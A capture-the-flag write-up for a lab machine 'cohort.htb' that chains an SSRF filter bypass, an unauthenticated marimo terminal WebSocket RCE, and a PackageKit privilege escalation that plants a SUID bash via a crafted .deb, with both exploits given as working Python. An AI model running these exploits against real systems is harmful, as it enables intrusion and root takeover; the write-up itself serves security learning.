

## Nmap Enumeration

```bash
$ nmap -p 22,80,443 -sVC -Pn 10.129.25.80 --min-rate=2000 -oN cohort_nmap
Starting Nmap 7.95 ( https://nmap.org ) at 2026-08-16 14:17 IST
Stats: 0:00:07 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 33.33% done; ETC: 14:17 (0:00:14 remaining)
Nmap scan report for 10.129.25.80
Host is up (0.27s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 9.6p1 Ubuntu 3ubuntu13.18 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0c:4b:d2:76:ab:10:06:92:05:dc:f7:55:94:7f:18:df (ECDSA)
|_  256 2d:6d:4a:4c:ee:2e:11:b6:c8:90:e6:83:e9:df:38:b0 (ED25519)
80/tcp  open  http     nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to https://cohort.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)
443/tcp open  ssl/http nginx 1.24.0 (Ubuntu)
| ssl-cert: Subject: commonName=cohort.htb/organizationName=Cohort Analytics
| Subject Alternative Name: DNS:cohort.htb, DNS:*.cohort.htb
| Not valid before: 2026-06-01T18:47:07
|_Not valid after:  2126-05-08T18:47:07
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to https://cohort.htb/
| tls-alpn: 
|   http/1.1
|   http/1.0
|_  http/0.9
|_ssl-date: TLS randomness does not represent time
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.55 seconds

```

The ports 22, 80 and 443 are open. Let’s also add `cohort.htb` to our hosts file.

### Enumerating `cohort.htb`

Both ports 80 and 443 redirect us to the same website, `http://cohort.htb`:-


One endpoint stands out on the website: `/portal.html`. Let us examine it


Looks like this portal allows the website to fetch public URLs. Trying to fetch a random public URL results in a gateway time-out error:-


### Confirming SSRF

Trying to request an internal URL (`http://localhost:80/`) to see if the endpoint is vulnerable to SSRF:-

```jsx
HTTP/1.1 200 OK
Server: nginx/1.24.0 (Ubuntu)
Date: Sun, 16 Aug 2026 09:38:29 GMT
Content-Type: application/json
Content-Length: 77
Connection: keep-alive

{"ok": false, "message": "Internal or loopback addresses are not permitted."}
```

Ok, looks like there is protection for SSRF attacks.

Trying out different payloads from https://github.com/swisskyrepo/PayloadsAllTheThings  , and we finally get a different result with `http://127.127.127.127:80`:-

```jsx
POST /api/validate HTTP/1.1
Host: cohort.htb
Content-Length: 48
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Accept: application/json
Sec-Ch-Ua: "Not;A=Brand";v="8", "Chromium";v="150"
Content-Type: application/json
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/150.0.0.0 Safari/537.36
Origin: https://cohort.htb
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://cohort.htb/portal.html
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
Connection: keep-alive

{"url":"http://127.0.0.1:80","format":"parquet"}
```


## Marimo

Tried internal port scanning with the SSRF vulnerability, no new results except for the already discovered ports. 

Tried directory and file bruteforce on [`https://cohort.htb`](https://cohort.htb) using `ffuf`:-

```jsx
ffuf -w /opt/SecLists/Discovery/Web-Content/common.txt -u https://cohort.htb/FUZZ -e .php,.html,.txt,.bak,.js -v -fs 908

```

One interesting result was a `403` on the endpoint `/status`

Trying to view `/status`  through the SSRF vulnerability:-

```
HTTP/1.1 200 OK
Server: nginx/1.24.0 (Ubuntu)
Date: Wed, 19 Aug 2026 10:38:04 GMT
Content-Type: application/json
Content-Length: 548
Connection: keep-alive

{"ok": true, "fetched_status": 200, "content_type": "application/json", "preview": "{\"service\":\"cohort-edge\",\"status\":\"ok\",\"generated_by\":\"nginx\",\"upstreams\":[{\"name\":\"marketing\",\"host\":\"cohort.htb\",\"root\":\"/var/www/cohort\"},{\"name\":\"insights-api\",\"host\":\"cohort.htb\",\"path\":\"/api/\",\"target\":\"127.0.0.1:5000\"},{\"name\":\"notebooks\",\"host\":\"nb-1be3782a8afd3ad5.cohort.htb\",\"target\":\"127.0.0.1:8888\",\"note\":\"internal analyst workspace, not for external use\"}]}", "message": "Source reachable."}
```

This looks interesting! There are two internal endpoints, an API endpoint at `5000`, and a Jupyter Notebook instance exposed at `8888`! 

Also, we got the hostname which is allowed access the Noteboook instance (`nb-1be3782a8afd3ad5.cohort.htb`).

Adding it to `hosts` file, and visiting `nb-1be3782a8afd3ad5.cohort.htb`  :


The Jupyter Notebook requires an access token/password for authentication

### CVE-2026-39987

After trying different methods, I was still not able to bypass the access token requirement for the notebook instance. Then I noticed that the notebook version running was `marimo`

Searching for vulnerabilities related to marimo:-


[https://github.com/advisories/GHSA-2679-6mx9-h9xc](https://github.com/advisories/GHSA-2679-6mx9-h9xc)

`CVE-2026-3997` is a Pre-Auth RCE vulnerability affecting Marimo installations of versions `<0.24.0`, according to its Github advisory. The terminal WebSocket endpoint `/terminal/ws`
lacks authentication validation, allowing an unauthenticated attacker 
to obtain a full PTY shell and execute arbitrary system commands.

Using https://github.com/0xBlackash/CVE-2026-39987 to check whether our installation of Marimo is vulnerable to the CVE:-


Looks like it is indeed vulnerable.

Developing on the PoC given in the advisory, here’s the modified exploit code for our use case:-

```python
import ssl
import time
import websocket

url = "wss://nb-1be3782a8afd3ad5.cohort.htb/terminal/ws"

sslopt = {
    "cert_reqs": ssl.CERT_NONE,
    "check_hostname": False,
}

ws = websocket.create_connection(url, sslopt=sslopt)

print("[+] Connected")

time.sleep(2)

ws.settimeout(1)
try:
    while True:
        print(ws.recv(), end="")
except Exception:
    pass

ws.settimeout(5)
ws.send("id\n")
time.sleep(1)

try:
    while True:
        print(ws.recv(), end="")
except Exception:
    pass

ws.close()
```

Executing it:-


RCE confirmed!!

### Reverse Shell and user flag

Modifying the same exploit script to connect back to a netcat listener on our machine, giving us reverse shell access:-


# Privilege Escalation

I ran [`linpeas.sh`](http://linpeas.sh) from https://github.com/peass-ng/PEASS-ng to check for any privilege escalation vectors, and found a potential vector:-


## Pack2TheRoot (CVE-2026-41651)

According to [Deutsche Telekom’s Red Team](https://github.security.telekom.com/2026/04/pack2theroot-linux-local-privilege-escalation.html) (the one’s who found and reported this vulnerability), this flaw enables an unprivileged attacker to install or remove system packages without authorization. This can be exploited to gain full root access or compromise the system in other ways.

All PackageKit versions between `>= 1.0.2` and `<= 1.3.4` are vulnerable. The PackageKit version the machine is `1.2.8` .

Using https://github.com/shibaaa204/Pack2TheRoot’s PoC:-

```python
import os
import subprocess
import time
from gi.repository import Gio, GLib

TARGET_SUID = "/tmp/.suid_bash"
DUMMY_DEB = "/tmp/dummy.deb"
PAYLOAD_DEB = "/tmp/payload.deb"

def build_deb(path, name, is_payload=False):
    tmp_dir = f"/tmp/build_{name}"
    debian_dir = os.path.join(tmp_dir, "DEBIAN")
    os.makedirs(debian_dir, exist_ok=True)

    with open(os.path.join(debian_dir, "control"), "w") as f:
        f.write(f"Package: {name}\nVersion: 1.0\nArchitecture: all\nMaintainer: PoC\nDescription: PoC\n")

    if is_payload:
        postinst = os.path.join(debian_dir, "postinst")
        with open(postinst, "w") as f:
            f.write(f"#!/bin/sh\ninstall -m 4755 /bin/bash {TARGET_SUID}\n")
        os.chmod(postinst, 0o755)

    subprocess.run(["dpkg-deb", "-b", tmp_dir, path], stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)
    subprocess.run(["rm", "-rf", tmp_dir])

def exploit():
    print("[*] CVE-2026-41651 — PackageKit LPE (Python Edition)")
    
    build_deb(DUMMY_DEB, "pk-dummy")
    build_deb(PAYLOAD_DEB, "pk-payload", is_payload=True)
    print("[+] Packages generated at /tmp")

    connection = Gio.bus_get_sync(Gio.BusType.SYSTEM, None)
    
    res = connection.call_sync(
        "org.freedesktop.PackageKit",
        "/org/freedesktop/PackageKit",
        "org.freedesktop.PackageKit",
        "CreateTransaction",
        None,
        GLib.VariantType.new("(o)"),
        Gio.DBusCallFlags.NONE,
        -1,
        None
    )
    
    tid = res.unpack()[0]
    print(f"[+] Active trans: {tid}")

    print("[*] Triggering flood of requests (SIMULATE -> REAL)...")
    
    connection.call(
        "org.freedesktop.PackageKit", tid,
        "org.freedesktop.PackageKit.Transaction", "InstallFiles",
        GLib.Variant("(tas)", (4, [DUMMY_DEB])),
        None, Gio.DBusCallFlags.NONE, -1, None, None
    )

    connection.call(
        "org.freedesktop.PackageKit", tid,
        "org.freedesktop.PackageKit.Transaction", "InstallFiles",
        GLib.Variant("(tas)", (0, [PAYLOAD_DEB])),
        None, Gio.DBusCallFlags.NONE, -1, None, None
    )

    connection.flush_sync(None)

    print(f"[*] Monitoring {TARGET_SUID}...")
    for _ in range(60):
        if os.path.exists(TARGET_SUID) and (os.stat(TARGET_SUID).st_mode & 0o4000):
            print(f"\n[+++] SUCCESS: {TARGET_SUID} is SUID ROOT!")
            os.remove(DUMMY_DEB)
            os.remove(PAYLOAD_DEB)
            os.execl(TARGET_SUID, TARGET_SUID, "-p")
            return
        
        print(".", end="", flush=True)
        time.sleep(1)

    print("\n[-] THe exploit failed. The window time closed.")

if __name__ == "__main__":
    try:
        exploit()
    except Exception as e:
        print(f"\n[-] Error: {e}")
```


`pwned`

# Learnings

- Always make sure your tools and scripts are updated (both for the defender as well as the *attacker)*